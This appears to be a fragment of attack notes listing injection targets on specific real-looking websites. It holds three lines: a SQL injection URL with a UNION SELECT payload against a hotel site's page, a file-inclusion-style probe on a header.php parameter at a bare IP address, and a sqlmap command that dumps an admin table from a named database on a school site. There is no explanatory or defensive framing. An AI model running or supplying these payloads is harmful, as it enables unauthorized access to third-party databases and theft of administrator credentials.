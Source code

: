 http://www.embryohotel.com/room-detail.php?id=-1+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13--+




145.239.87.16:83/includes/header.php?systempath=




sqlmap -u https://www.johnxxiii.co.in/php/gallary.php?id=1 --batch -D johnxxiiinew -T tbl_admin --time-sec 3 --dump




